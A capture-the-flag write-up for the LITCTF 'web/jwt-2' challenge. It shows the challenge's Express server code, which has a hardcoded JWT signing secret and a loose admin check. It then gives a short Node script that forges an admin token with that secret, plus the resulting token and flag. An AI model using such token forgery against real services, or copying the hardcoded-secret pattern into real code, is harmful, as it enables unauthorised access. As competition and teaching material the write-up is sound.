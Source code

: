 # web/jwt-2

## About
"its like jwt-1 but this one is harder URL: http://litctf.org:31777/ ."

The webpage looks exactly the same as `web/jwt-1`. This time, however, `index.ts` has been given:
```ts
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
    const parsedPayload = JSON.parse(decodedPayload);
		// verify signature
		const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
		if (signature !== expectedSignature) {
			return res.status(403).send('Unauthorized ;)');
		}
    // check if user is admin
    if (parsedPayload.admin || !("name" in parsedPayload)) {
      return res.send(
        fs.readFileSync(path.join(__dirname, "flag.txt"), "utf-8")
      );
    } else {
      return res.status(403).send("Unauthorized");
    }
  } catch {
    return res.status(403).send("Unauthorized");
  }
});

.
.
.
```

## Recon
Looking at the code, I was able to figure out not only `admin` value needs to be `True`, but also `signature` part of the cookie needs to be constructed with `jwtSecret = "xook"` keyword.

## Exploitation
I wrote JavaScript code to craft the cookie.
```js
// cookie.js
const crypto = require('crypto');

const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const jwtPayload = Buffer.from(JSON.stringify({ name: "admin", admin: true }), "utf-8")
  .toString("base64")
  .replace(/=/g, "");

const jwtSecret = "xook";
const signature = crypto.createHmac('sha256', jwtSecret)
  .update(jwtHeader + '.' + jwtPayload)
  .digest('base64')
  .replace(/=/g, '');

const token = `${jwtHeader}.${jwtPayload}.${signature}`;

console.log(token);
```

```bash
$ node cookie.js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhZG1pbiI6dHJ1ZX0.MTnIgTB1oTbZ2pNsqQreiHQo9309/IoytyoVE4DshM8
```

Flag: LITCTF{v3rifyed_thI3_Tlme_1re4DV9}